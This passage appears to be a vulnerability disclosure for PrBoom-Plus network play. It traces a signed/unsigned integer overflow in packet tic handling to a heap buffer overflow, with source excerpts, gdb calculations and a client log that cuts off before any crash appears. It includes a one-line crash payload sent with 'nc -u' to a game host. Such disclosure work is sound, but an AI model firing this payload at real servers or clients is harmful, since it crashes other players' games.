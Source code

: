 `remoteticto` is set here:
{% highlight x %}
565          remoteticto[from] = ptic(packet);
{% endhighlight %}
This array is signed int type,
{% highlight x %}
461      int remoteticto[MAXPLAYERS] = { 0, 0, 0, 0 };
{% endhighlight %}
but a packet received over network is parsed to `packet_header_t` structure with `unsigned tic` (`0xff273356` from the payload). When `tic` is assigned to the array (line 565), integer overflow occurs and it becomes a negative value (`-14208170`). In the result, in line 684, this whole value is zeroed. `lowtic` is the only variable on which `tics` depends (line 685).
`lowtic` is taken from `remoteticfrom` which grows itself as the game is started and players connected. In practice waiting for less than 20 seconds was enough to get `lowtic` greater than `525`, which resulted in the allocated buffer bigger than 10000 bytes and finally in heap buffer overflow.
{% highlight x %}
(gdb) printf "%u\n" ,sizeof(packet_header_t) + 1 + (525) * (1 + numplayers * (1 + sizeof(ticcmd_t)))
9984
(gdb) printf "%u\n" ,sizeof(packet_header_t) + 1 + (526) * (1 + numplayers * (1 + sizeof(ticcmd_t)))
10003
{% endhighlight %}


### Client crash 1
Minimal payload to crash: `\xb4\x05\x00\x00\x56\x33\x27\xff`

{% highlight x %}
# echo -n -e '\xb4\x05\x00\x00\x56\x33\x27\xff' | nc -u 10.1.1.109 1024
{% endhighlight %}
and the result:
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# ./prboom-plus -iwad /root/projects/prboom-plus/freedm-0.11.3/freedm.wad -net 127.0.0.1 -window -nomouse
M_LoadDefaults: Load system defaults.
 default file: /root/.prboom-plus/prboom-plus.cfg
 found /root/projects/prboom-plus/prboom2/bin/share/games/doom/prboom-plus.wad

PrBoom-Plus v2.5.1.5 (http://prboom-plus.sourceforge.net/)
I_SetAffinityMask: manual affinity mask is 1
 found /root/projects/prboom-plus/freedm-0.11.3/freedm.wad
IWAD found: /root/projects/prboom-plus/freedm-0.11.3/freedm.wad
PrBoom-Plus (built 2019-08-17 13:35:34), playing: DOOM 2: Hell on Earth
PrBoom-Plus is released under the GNU General Public license v2.0.
You are welcome to redistribute it under certain conditions.
It comes with ABSOLUTELY NO WARRANTY. See the file COPYING for details.
V_Init: allocate screens.
V_InitMode: using 8 bit video mode
I_CalculateRes: trying to optimize screen pitch
 test case for pitch=640 is processed 12203 times for 100 msec
 test case for pitch=672 is processed 15639 times for 100 msec
 optimized screen pitch is 672
I_InitScreenResolution: Using resolution 640x480
 found /root/projects/prboom-plus/prboom2/bin/share/games/doom/prboom-plus.wad
D_InitNetGame: Checking for network game.
	joined game as player 2/2; 0 WADs specified
W_Init: Init WADfiles.
 adding /root/projects/prboom-plus/freedm-0.11.3/freedm.wad
 adding /root/projects/prboom-plus/prboom2/bin/share/games/doom/prboom-plus.wad
W_InitCache
